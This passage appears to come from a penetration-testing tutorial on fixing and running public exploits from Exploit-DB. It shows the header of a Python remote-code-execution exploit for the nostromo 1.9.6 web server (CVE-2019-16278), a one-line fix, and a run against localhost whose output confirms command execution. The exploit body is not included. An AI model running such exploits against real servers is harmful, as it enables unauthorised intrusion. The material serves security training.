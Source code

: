 Exploits you download from the Internet may not work the first time. It helps to understand the programming language the script is in so that, if needed, you can fix any bugs or make any modifications, as quite a few scripts on Exploit-DB expect you to make modifications.

Fortunately, the error was caused by a line that should have been commented out, so it's an easy fix.

```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

cve2019_16278.py  # This line needs to be commented.

#!/usr/bin/env python
```

Fixing that, let's try and run the program again.  

Linux

```shell-session
user@linux$ python2 47837.py 127.0.0.1 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Fri, 03 Feb 2023 04:58:34 GMT
Server: nostromo 1.9.6
Connection: close

uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```

Boom! We have RCE. Now it's important to note that most scripts will tell you what arguments you need to provide. Exploit developers will rarely make you read potentially hundreds of lines of code just to figure out how to use the script.  
